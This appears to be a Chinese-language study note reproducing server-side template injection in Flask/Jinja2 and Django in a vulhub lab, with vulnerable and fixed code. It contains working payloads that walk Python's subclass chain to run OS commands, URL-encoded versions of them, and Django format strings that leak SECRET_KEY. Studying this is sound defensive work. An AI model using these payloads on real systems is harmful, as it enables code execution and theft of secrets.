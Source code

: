 > 本文是跟随https://www.cnblogs.com/bmjoker/p/13508538.html的分析复现，关于java php框架的模板注入漏洞，可以去原文中查看。在此只分析python框架

### 漏洞原理

模板引擎（这里特指用于Web开发的模板引擎）是为了使用户界面与业务数据（内容）分离而产生的，它可以生成特定格式的文档，**利用模板引擎来生成前端的html代码**，模板引擎会提供一套生成html代码的程序，然后只需要获取用户的数据，然后放到渲染函数里，然后生成模板+用户数据的前端html页面，然后反馈给浏览器，呈现在用户面前。

SSTI 就是服务器端模板注入（Server-Side Template Injection）

漏洞成因就是服务端接收了用户的恶意输入以后，未经任何处理就将其**作为 Web 应用模板内容的一部分**，模板引擎在进行目标编译渲染的过程中，执行了用户插入的可以破坏模板的语句。因而可能导致了敏感信息泄露、代码执行等问题。

凡是使用模板的地方都可能会出现 SSTI 的问题

![img](https://img2020.cnblogs.com/blog/1344396/202009/1344396-20200911174631687-758048107.png)

## Flask（Jinja2） 服务端模板注入漏洞

### 漏洞分析复现

使用/vulhub/flask/ssti环境

Jinja2是一种面向Python的现代和设计友好的模板语言，它是以Django的模板为模型的，Jinja2是Flask框架的一部分。

此漏洞提供了环境源码

~~~python
from flask import Flask, request
from jinja2 import Template

app = Flask(__name__)

@app.route("/")
def index():
    name = request.args.get('name', 'guest')  //name参数由用户输入

    t = Template("Hello " + name) //将输入的name拼接到模板，此时name的输入没有经过任何检测
    return t.render()

if __name__ == "__main__":
    app.run()
~~~

使用模板语言测试

![image-20220331200855545](TyporaPicture/image-20220331200855545.png)

如果使用一个固定好了的模板，在模板渲染之后传入数据，就不存在模板注入，就好像SQL注入的预编译一样，修复上面代码如下：

~~~python
from flask import Flask, request
from jinja2 import Template

app = Flask(__name__)

@app.route("/")
def index():
    name = request.args.get('name', 'guest')

    t = Template("Hello {{n}}")
    return t.render(n=name)

if __name__ == "__main__":
    app.run()
~~~

### 漏洞利用

可以通过ssti执行python代码

![image-20220331203425634](TyporaPicture/image-20220331203425634.png)

由于在jinja2中是可以直接访问python的一些对象及其方法的，所以可以通过构造继承链来执行一些操作，比如文件读取，命令执行等

![image-20220331202148654](TyporaPicture/image-20220331202148654.png)

用file对象读取文件

![image-20220331202739667](TyporaPicture/image-20220331202739667.png)

不过**python3已经移除了file。所以利用file子类文件读取只能在python2中用。**

在Python中，有一个内建模块，该模块中有一些常用函数;而该模块在Python启动后、且没有执行程序员所写的任何代码前，Python会首先加载该内建函数到内存。另外，该内建模块中的功能可以直接使用，不用在其前添加内建模块前缀，其原因是对函数、变量、类等标识符的查找是按LE(N)GB法则，其中B即代表内建模块。比如：内建模块中有一个abs()函数，其功能是计算一个数的绝对值，如abs(-20)将返回20。

在Python2.X版本中，内建模块被命名为__builtin__，而到了Python3.X版本中，却更名为builtins。

~~~python
search = '__builtins__'
num = 0
for i in {}.__class__.__bases__[0].__subclasses__():
    try:
        #print(i.__init__.__globals__.keys())
        if search in i.__init__.__globals__.keys():
            print(i, num)
    except:
        pass
    num += 1
~~~

![image-20220331204710934](TyporaPicture/image-20220331204710934.png)

构造payload如下

~~~python
{}.__class__.__bases__[0].__subclasses__()[80].__init__.__globals__['__builtins__']['eval']("__import__('os').system('whoami')")
~~~

![image-20220331205047912](TyporaPicture/image-20220331205047912.png)

只要是含有内建模块的类即可

~~~python
{}.__class__.__bases__[0].__subclasses__()[110].__init__.__globals__['__builtins__']['eval']("__import__('os').system('whoami')")
~~~

综合利用如下

~~~python
print ({}.__class__.__bases__[0].__subclasses__()[80].__name__)
print("\n")
#####################
for i in {}.__class__.__bases__[0].__subclasses__():
    if i.__name__=='_ModuleLock':
        print(i.__init__.__globals__['__builtins__']['eval']("__import__('os').system('whoami')"))
~~~

![image-20220331210856753](TyporaPicture/image-20220331210856753.png)

将payload转换成模板语句

~~~python
{% for i in {}.__class__.__bases__[0].__subclasses__() %}
    {% if i.__name__=='_ModuleLock' %}
        {{ i.__init__.__globals__['__builtins__']['eval']("__import__('os').system('whoami')") }}
    {% endif %}
{% endfor %}
~~~

进行url编码，用%0A替换换行。回车还能url编码我第一次遇到。

~~~
%7B%25%20for%20i%20in%20%7B%7D.__class__.__bases__%5B0%5D.__subclasses__()%20%25%7D%0A%20%20%20%20%7B%25%20if%20i.__name__%3D%3D%27_ModuleLock%27%20%25%7D%0A%20%20%20%20%20%20%20%20%7B%7B%20i.__init__.__globals__%5B%27__builtins__%27%5D%5B%27eval%27%5D("__import__(%27os%27).system(%27whoami%27)")%20%7D%7D%0A%20%20%20%20%7B%25%20endif%20%25%7D%0A%7B%25%20endfor%20%25%7D
~~~

然而我自己写的payload执行结果是0。推测是返回值格式的问题。

![image-20220331213932133](TyporaPicture/image-20220331213932133.png)

修改payload

~~~python
{% for i in {}.__class__.__bases__[0].__subclasses__() %}
    {% if i.__name__=='_ModuleLock' %}
        {{ i.__init__.__globals__['__builtins__']['eval']('__import__("os").popen("whoami").read()') }}
    {% endif %}
{% endfor %}
~~~

~~~
%7B%25%20for%20i%20in%20%7B%7D.__class__.__bases__%5B0%5D.__subclasses__()%20%25%7D%0A%20%20%20%20%7B%25%20if%20i.__name__%3D%3D%27_ModuleLock%27%20%25%7D%0A%20%20%20%20%20%20%20%20%7B%7B%20i.__init__.__globals__%5B%27__builtins__%27%5D%5B%27eval%27%5D(%27__import__(%22os%22).popen(%22whoami%22).read()%27)%20%7D%7D%0A%20%20%20%20%7B%25%20endif%20%25%7D%0A%7B%25%20endfor%20%25%7D
~~~

成功执行命令

![image-20220331214139126](TyporaPicture/image-20220331214139126.png)



## Djiango SSTI

~~~
def view(request, *args, **kwargs):
    template = 'Hello {user}, This is your email: ' + request.GET.get('email')
    return HttpResponse(template.format(user=request.user))
~~~

很明显 email 就是注入点，但是条件被限制的很死，很难执行命令，现在拿到的只有有一个和user有关的变量request.user ，这个时候我们就应该在没有应用源码的情况下去寻找框架本身的属性，看这个空框架有什么属性和类之间的引用。

后来发现Django自带的应用 "admin"（也就是Django自带的后台）的models.py中导入了当前网站的配置文件：

![img](https://img2020.cnblogs.com/blog/1344396/202009/1344396-20200911002243408-1781833415.png)

所以可以通过某种方式，找到Django默认应用admin的model，再通过这个model获取settings对象，进而获取数据库账号密码、Web加密密钥等信息。

payload如下：

~~~
http://localhost:8000/?email={user.groups.model._meta.app_config.module.admin.settings.SECRET_KEY}

http://localhost:8000/?email={user.user_permissions.model._meta.app_config.module.admin.settings.SECRET_KEY}
~~~

## SSTI利用工具

https://github.com/epinna/tplmap

> 参考资料
> https://blog.csdn.net/ssliudh1226/article/details/53420565
> https://www.cnblogs.com/bmjoker/p/13508538.html  介绍的很详细